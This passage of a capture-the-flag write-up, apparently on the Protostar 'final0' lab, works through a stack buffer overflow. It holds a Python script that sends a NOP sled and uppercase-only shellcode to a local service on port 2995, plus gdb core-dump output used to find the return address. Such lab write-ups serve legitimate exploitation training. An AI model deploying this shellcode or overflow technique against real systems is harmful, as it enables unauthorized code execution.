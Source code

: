 ```
0xbffffcc0:  'a' <repeats 12 times>, "bbbbbbbb"
```

From this, we can see that the final buffer, after the "toupper()" and "strdup()" is located at 0xbffffab8.  We now have the option of putting the shellcode before or after the return address.   

Before
------

I setup a quick python script to use the offset of 532 bytes, added a little bit of a nop sled and shellcode.  Since the code uses a "toupper()", the shellcode can't contain any lowercase letters.  I luckily was able to find some shellcode that suits this scenario perfectly [here](http://www.exploit-db.com/exploits/13427).

```
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2995))

offset = 532

ret = "\xEF\xBE\xAD\xDE"
nop = "\x90"*16

shellcode = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff" \
"\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47" \
"\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xed" \
"DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKB" \
"AFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIA" \
"JDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJO" \
"BLAALMNIA"

junk = "a"*(offset-len(nop)-len(shellcode))

s.send(nop + shellcode + junk + ret)
```

After running that script, I was able to debug the dump file. This allowed me to get the address to return to, containing the nop sled and shellcode.

```
root@protostar:/home/user# gdb --quiet --core=/tmp/core.11.final0.14816 
Core was generated by `/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10x 0xbffffabf
0xbffffabf: 0x90909090 0x90909090 0xeb02eb90 0xfff9e805
0xbffffacf: 0x815fffff 0xffffdfef 0x295e57ff 0xb8c180c9
0xbffffadf: 0x412c078a 0x4704e0c0
```
